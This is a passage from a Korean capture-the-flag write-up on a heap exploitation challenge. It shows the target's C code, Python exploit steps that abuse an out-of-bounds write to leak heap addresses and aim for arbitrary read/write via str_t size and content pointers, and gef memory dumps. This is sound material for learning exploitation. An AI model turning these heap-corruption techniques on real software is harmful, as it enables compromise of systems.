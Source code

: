``` c
static int show(data_t *data, unsigned level, bool recur){
  ...
  switch(data->type){
    case TYPE_EMPTY:
      puts("<EMPTY>");
      break;
    ...
    default:
      puts("<UNKNOWN>");
      exit(1);
  }
  return 0;
}
```
따라서 `arr_t` 생성 전에 `edit()`의 `delete`를 이용하여 `data_t->type`으로 해석되는 값을 0으로 초기화할 필요가 있다.
``` python
    # overwrite arr_t.count of [0, 1]
    edit(s, 'd', [0, 0, 4])
    edit(s, 'u', [0, 0, 4], 'a', 2)
```
이렇게 overwrite에 성공하면 `[0, 1]->count` 부분에 새로운 `arr_t` 주소가 담기게 되고, `show()`를 이용해 값을 출력할 수 있다.

### Heap overflow
이제 `arr_t`로 heap leak이 가능했으니 다른 구조체인 `str_t`을 이용해 exploit을 시도하려고 했다.
``` c
typedef struct String {
	size_t size;
	char *content;
} str_t;
```
OOB를 이용해 `size`, `*content`를 덮으면 임의 주소를 read / write할 수 있겠다는 생각이 들었다.
``` python
    edit(s, 'u', [0, 2, 0], 'v', "A" * 0x10)
    edit(s, 'u', [0, 2, 1], 'v', "B" * 0x10)
    edit(s, 'u', [0, 2, 2], 'v', "C" * 0x10)
```
위 payload를 이용해 `str_t` 객체들을 할당하면 메모리 구조는 다음과 같다.
``` bash
gef➤  x/10gx 0x0000555555559420
0x555555559420: 0x0000000000000004      0x0000000000000000      # [0, 3]
0x555555559430: 0x0000000000000000      0x0000000000000000
0x555555559440: 0x0000000000000000      0x0000000000000000
0x555555559450: 0x0000000000000000      0x0000000000000000
0x555555559460: 0x0000000000000000      0x0000000000000021
gef➤
0x555555559470: 0x0000000000000001      0x0000000000000000      # [0, 0, 4]
0x555555559480: 0x0000000000000000      0x0000000000000021
0x555555559490: 0x4141414141414141      0x4141414141414141      # [0, 2, 0]->content
0x5555555594a0: 0x0000000000000000      0x0000000000000051
0x5555555594b0: 0x0000000555555559      0xaf03f4adbccb3443      # leftover buf
gef➤
0x5555555594c0: 0x0000000000000000      0x0000000000000000
0x5555555594d0: 0x0000000000000000      0x0000000000000000
0x5555555594e0: 0x0000000000000000      0x0000000000000000
0x5555555594f0: 0x0000000000000000      0x0000000000000021 
0x555555559500: 0x0000000000000010      0x0000555555559490      # [0, 2, 0] ; "AAAA"
```
이렇게 OOB 취약점을 이용해서 `[0, 2, 0]`의 `size`와 `*content`를 덮고 싶어도 인접한 영역에 할당되지 않는데, `create()`에서 입력을 받는 방식 때문에 발생하는 문제이다.
``` c
static int create(data_t *data){
  ...
  else {        // type == 'v'
    char *buf, *endptr;
```